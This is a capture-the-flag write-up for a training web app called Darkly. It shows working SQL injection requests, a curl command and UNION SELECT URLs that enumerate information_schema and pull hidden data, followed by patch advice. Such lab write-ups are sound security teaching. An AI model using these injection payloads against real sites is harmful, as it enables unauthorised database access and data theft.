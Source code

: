 # SQL Injection

## Exploit

On the /?page=member page, an incorrect input validation of the “Search member by ID” form transforms it into an attack vector for sql injections.

By making the following request :

`curl -s "http://[Darkly IP]/?page=member&id=5%20UNION%20SELECT%20title,comment%20FROM%20Member_images.list_images&Submit=Submit#" | grep flag | sed 's/.*\(Hack.*\)/\1/'`

We obtain the following result:

`Hack me ?<br>Surname : If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46</pre><table width=50%>`

[md5.gromweb.com](https://md5.gromweb.com/) 5ff9d0165b4f92b14994e5c685cdce28 => albatroz

`echo -n "albatroz"  | tr '[:upper:]' '[:lower:]' | openssl dgst -sha256 | awk '{print $2}'`

### Requests used during database enumeration:

http://[Darkly IP]/?page=member&id=5%20UNION%20SELECT%20TABLE_SCHEMA,COLUMN_NAME%20FROM%20information_schema.columns&Submit=Submit#

http://[Darkly IP]/?page=member&id=5%20UNION%20SELECT%20TABLE_NAME,COLUMN_NAME%20FROM%20information_schema.columns&Submit=Submit#

http://[Darkly IP]/?page=member&id=5%20UNION%20SELECT%20title,comment%20FROM%20Member_images.list_images&Submit=Submit#


## Patch

- Avoid use of dynamic queries with string concatenation
- Prevent malicious SQL input from being included in executed queries
- Input validation and sanitize all inputs (not only web forms)
- Turn off the visibility of database errors

## Resources

[OWASP SQL INJECTION](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection.html)
